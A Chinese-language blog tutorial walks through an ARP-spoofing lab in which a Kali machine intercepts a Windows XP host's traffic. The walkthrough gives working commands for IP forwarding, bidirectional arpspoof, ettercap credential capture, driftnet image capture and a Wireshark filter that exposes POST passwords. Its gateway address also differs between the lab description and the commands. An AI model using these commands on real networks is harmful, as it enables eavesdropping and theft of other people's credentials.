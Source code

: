 ```yaml
---
layout:     post
title:      arp欺骗
subtitle:   arpspoof+ettercap+driftnet
date:       2019-05-26
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - spoof
    - arp欺骗
    - arp嗅探
    - 内网渗透
---
```


# arp欺局

**arp欺骗是在局域网环境下，会碰到且门槛极低，危害又高的一种攻击方式，这里做一个简单复现，仅供学习参考！**

### 实验环境：

* **kali**  IP：192.168.43.138
* **winXP** IP：192.168.43.188
* **Metasploitable**  IP：192.168.43.149
* **网关**  IP：192.168.43.1

`在arp欺骗的过程中，攻击机通过欺骗，将被攻击机的数据包截获，如果开启了ip转发，则会再转发给网关或者目标ip，这样就不会断网，如果不开启ip转发，截获数据包之后没有返回则会造成断网`

### 第一步：

* 首先在攻击机kali上开启ip转发

  * `echo 1 >/proc/sys/net/ipv4/ip_forward` 如果设为0则不转发，造成断网

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526224838.png)

### 第二步：

* 使用arpspoof指定eth0这块网卡，将自己伪装成ip为192..168.43.1的网关，欺骗ip为192.168.43.188的winxp

  * `arpspoof -i eth0 -t 192.168.43.188 192.168.1.1`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225327.png)

* 上述只是单方面欺骗网关，一般情况下都是双向欺骗（欺骗网关我是xp，欺骗xp我是网关）

  * `arpspoof -i eth0 -t 192.168.43.188 192.168.1.1 -r`使用-r参数即可

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225550.png)

### 第三步：

* 使用winxp访问msf的ip，并登陆dvwa

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225646.png)

### 第四步：

* 使用ettercap攻击截获eth0网卡中传输数据包中的明文账号密码信息

  * `ettercap -Tq -i eth0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225856.png)

* 使用driftnet截获eth0网卡传输中的的图片

  * `driftnet -i eth0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230038.png)

  * 可以看到截获的明文账号密码信息

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230355.png)

  

  * 在xp上访问图片网页

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230052.png)

  * 在kali上driftnet的图片查看工具上可以看到截获的图片

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230220.png)

### 第五步：

* 当然也可以使用wireshark查看截获到所有数据包的详细数据信息以做分析

  * `http && ip.addr==192.168.43.188` 使用过滤的相关参数，过滤掉多余的信息

    > 关于wireshark的过滤语法，回头找机会单写一篇详细些的文章

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230751.png)

  * 查看POST包中的信息

  ​              ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230917.png)

  * 可以看到数据包中的详细账号密码信息

